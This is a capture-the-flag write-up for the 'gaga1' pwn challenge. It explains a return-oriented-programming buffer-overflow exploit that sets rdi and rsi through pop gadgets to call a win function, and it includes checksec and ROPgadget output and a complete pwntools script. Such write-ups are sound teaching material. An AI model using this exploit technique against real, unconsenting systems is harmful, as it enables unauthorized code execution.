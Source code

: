 It is the same buffer-overflow as in `gaga0`, but with the `win1` function requiring arguments as well. Binary protections are also the same
```bash
$ checksec gaga1
[*] '~/angstrom/pwn/gaga/1/gaga1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
{: .nolineno }

We set up the exploit-script the same way as in `gaga0` (except instead of we being given the function address of the `win1` function we find it with `exe.sym.win1` from pwntools)
```python
payload = b"\x90" * offset
payload += pack(exe.sym.win1)
```
{: .nolineno }

However, since `win1` requires two function arguments before printing the flag to us we have to add two arguments into our payload before calling `win1`. In 64-bit architecture the two registers storing the first two function arguments are `rdi` and `rsi`, so we need to find gadgets which pops values into those registers. We can use `ROPgadget` for this
```bash
ROPgadget --binary gaga1
Gadgets information
============================================================
0x00000000004013b3 : pop rdi ; ret
0x00000000004013b1 : pop rsi ; pop r15 ; ret
0x000000000040101a : ret
```
{: .nolineno }

We can pop `0x1337` into `rdi` and `0x4141` into `rsi` before calling `win1`, which makes it so the if-checks pass and we get the flag.
```python
offset = 72
pop_rdi = 0x4013b3
pop_rsi_r15 = 0x4013b1

io = start()
io.recvuntil(b"input:")

payload = b"\x90" * offset
payload += pack(pop_rdi)
payload += pack(0x1337)
payload += pack(pop_rsi_r15)
payload += pack(0x4141)
payload += pack(0x0) # r15
payload += pack(exe.sym.win1)

io.sendline(payload)
io.interactive()
```
{: .nolineno}
